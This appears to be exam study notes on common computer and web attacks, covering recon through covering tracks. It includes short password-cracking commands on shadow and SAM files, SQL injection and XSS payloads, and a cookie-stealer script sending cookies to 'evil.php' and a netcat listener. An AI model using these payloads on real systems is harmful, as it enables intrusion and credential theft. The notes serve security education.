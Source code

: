 # Common Attacks

## Exam Outcome

Demonstrate a broad knowledge of computer and network attacks

## Common Attacks

## 1. Recon

## 2. Scanning

### NetDiscover

```
netdiscover -i [interface]
```

### enum4linux

```
enum4linux [target IP]
```

### SMB Sessions

View SMB sessions (outbound)

```
net use
```

View SMB sessions (inbound):

```
net session
```

Establishing an SMB session:

```
net use \\%COMPUTERNAME% /u:[account]
```

Delete an SMB session:

```
net use \\%COMPUTERNAME% /del
```

Using the enum tool to pull user, password policy, and grup info:

```
enum -u [user] -p [password] -U [target IP]
enum -u [user] -p [password] -P [target IP]
enum -u [user] -p [password] -G [target IP]
```

### War Dialing

Dialing a sequence of telephone numbers attempting to locate a modem. Popular tool for doing so is HD Moore's WarVOX.

### War Driving

The act of performing wireless LAN discovery.

## 2.  Exploitation

Exploitation (per 504) is broken down into 3 sections:

1. Gaining Access
2. Web App Attacks
3. Denial of Service

## Exploitation - Gaining Access

### IP Address Spoofing

### Passive and Active Sniffing

### Session Hijacking with Ettercap

Session hijacking synthesizes sniffing and spoofing.

### DNS Cache Poisoning

### Buffer Overflows

Allows an attacker to execute arbitrary commands on your machine.

### Format String Attacks

Related to manipulating programs that misuse printf and related commands to read arbitrary information from memory.

### Password Cracking

#### Password Cracking Methodologies

1. Dictionary attack
2. Brute force attack
3. Hybrid

John the Ripper (on Linux):

```
cp /etc/passwd /tmp/passwd_copy
cp /etc/shadow /tmp/shadow_copy

unshadow /tmp/passwd_copy /tmp/shadow_copy > /tmp/combined

/run/john /tmp/combined
```

John the Ripper (on Windows)

```
john-mmx.exe c:\path\to\sam.txt
```

### Pass-the-Hash Attacks

Instead of, or in addition to, stealing password hashes and cracking them, you can also use the pilfered hashes to directly attempt authentication from one box to another.

### Worms & Bots

Worms are designed to be self-propagating and are intended to quickly spread and infect other systems very quickly.
Worms come in different flavors:  multi-exploit, multi-platform, zero-day, flash technique induced, and polymorphic.

### Virtual Machine Attacks

## Exploitation - Web App Attacks

### Account Harvesting

The ability to discern valid userIDs based on how the application responds when the user tried to authenticate. After discerning the error messages, behaviors, and output, automation can be leveraged to quickly identify a list of valid userIDs.

### Command Injection

The manipulation of web application behavior that takes user input and executes it in the back end; bad guys can manipulate this to achieve code execution in certain instances.

### SQL Injection

SQL Injection is the most common web-based attack. It is used when the hacker places commands which can trigger valid SQL queries within a field not typically associated with SQL commands. Fields like "Username" and "Password". But these types of commands cab be inserted into any DB style entry field.

1. List Field Values #1:
An attacker may try the following to see if they can get a list of values from a particular field, user, pass, version, email, etc.

```
'0 OR 1=1'
```

Or:

```
' or '1'='1
```

Equivalent to the SQL Command:
'SELECT * FROM Users WHERE UserId = 0 OR 1=1;''

2. List Field Values #2:
An attacker may try the following to get a list of values from a particular field, user, pass, version, email, etc.
```
" or ""="
```

Equivalent to the SQL Command:
SELECT * FROM Users WHERE Name ="" or ""="" AND Pass ="" or ""=""

3. Elevate privileges
```
"john'; INSERT INTO group_membership (user_id, group) VALUES (SELECT user_id FROM users WHERE username='john', 'Administrator'); --'"
```

Equivalent to the SQL Command:
SELECT user_id, username, password_hash FROM users WHERE username = 'john'; 
INSERT INTO group_membership (user_id, group) VALUES (SELECT user_id FROM users WHERE username='john', 'Administrator'); --'

4. Getting Hashesh

```
admin' union select password from users where username='admin';--
```

### XSS Attacks

1. Black Box Testing
Enter the following in the URL:

```
hxxp://www.site.com/index.php?name=<script>alert(123)</script>
```

2. Search Test
If the site has a search field without proper sanitization:

```
hxxp://www.site.com/search?source=“><script>alert(123)</script>
```

3. One Error Test
If the site has a mouseover or onerror capability

```
hxxp://www.site.com/index.php?name=<b onmouseover=alert('Wufff!')>click me!</b>
```
```
hxxp://www.site.com/index.php?name=<img src="http://url.to.file.which/not.exist" onerror=alert(document.cookie);>
```

5. Assessing about:cache Entries (Firefox)

```
Type "about:cache" in the address bar
Click on 'List Cache Entries'
Analyze recent capture entries of attempted XSS entry points
```

4. Cookie Stealer

```
hxxp://www.site.com/index.php?name=<SCRIPT type="text/javascript"> var adr = '../evil.php?cakemonster=' + escape(document.cookie);</SCRIPT>
```

Another example using netcat (nc):

Start a nc listener:

```
nc -l -v -p 2222
```

Enter the following in the <script> tag:

```
<script>document.location='http://127.0.0.1:2222/grab.cgi?'+document.cookie;</script>
```

The cookie will be relayed to the netcat (nc) listener.

Using the stolen cookie to gain additional access with Nikto:

```
perl ./nikto.pl -Single
[Hostname or IP]: 127.0.0.1
[URL(/)]: /admind.php
[Data]: Cookie: user=1337
```

5. Hide from JavaScript
```
hxxp://www.site.com/index.php?name=<IMG SRC=j&#X41vascript:alert(123)>
```

### Attacking State Maintenance with Web App Manipulation Proxies

Great tools: ZAP, Burp, w3af, and Fiddler.

### Sqlmap

```
sqlmap -u [URL] --data="[parameters]" -p [paramater]
```

## Exploitation - Denial of Service

### Local DOS

### DNS Amplification Attacks

### DoS Suites

### Distributed DoS (DDoS)

## 4. Keeping Access

### App-level Trojan Horse Backdoor Suites

Tools that allow the attacker complete control over a victim machine:  Poison Ivy, VNC (legit, but often abused), Dameware, Sub7 and others.

### Wrappers and Packers

Wrappers are used to bundle two applications together (one legit and the other typically evil).

Packers are primarily used to thwart reverse engineers - by using techniques like compression so that the executable isn't easily reversed and so that strings aren't as readily available.

### Memory Analysis

### User-Mode Rootkits

#### Linux User-Mode Rootkits

Fontanini rootkit.

#### Windows User-Mode Rootkits

### Kernel-Mode Rootkits

#### Rooty
#### Avatar Rootkit
#### Avatar and Alureon

## 5. Covering Tracks

### Covering Tracks in Linux & Unix

#### Hiding Files

```
ls -a
echo hideme > ".. "
ls -a
```

#### Log Editing

Some interesting log sources in Linux:  /var/log/secure; var/log/messages; var/log/httpd/error_log; /var/log/httpd/access_log

#### Accounting Entry Editing

utmp: File contains info about currently logged in users (/var/log/utmp)
wtmp: File contains data about past user logins (/var/log/wtmp)
btmp: File contains bad login entries for failed login attempts (/var/log/btmp)
lastlog: File shows login name, port, and last login for each user (/var/log/lastlog)

### Covering Tracks in Windows

#### Hiding Files

NTFS Alternate Data Streams (ADS)

```
type hackerstuff.exe > notepad.exe:steam1.exe
more < c:\file:stream1
```

Using LADS

```
c:\tools\lads\lads\ /S c:\tmp
```

#### Log Editing

#### Covering Tracks on the Network

#### Reverse HTTP Shells

#### IMCP Tunnels

#### Covert_TCP

```
covert_tcp -dest 127.0.0.1 -source 127.0.0.1 -source_port 8888 -dest_port 9999 -server -file /tmp/receive/receive.txt
```

### Steganography

Sample stego tools:

1. Jsteg
2. MP3Stego
3. S-Mail
4. Invisible Secrets
5. Stash
6. Hydan





